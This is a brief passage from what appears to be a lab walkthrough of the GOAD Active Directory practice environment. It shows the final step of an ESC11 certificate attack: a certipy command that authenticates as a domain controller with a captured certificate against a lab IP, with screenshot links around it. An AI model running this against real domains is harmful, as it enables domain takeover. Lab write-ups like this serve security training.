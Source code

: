 ![part14_esc11_ok.png](/assets/blog/GOAD/part14_esc11_ok.png)

- And authenticate with the dc certificate.

```bash
certipy auth -pfx meereen.pfx -dc-ip 192.168.56.12
```

![part14_esc11_finish.png](/assets/blog/GOAD/part14_esc11_finish.png)
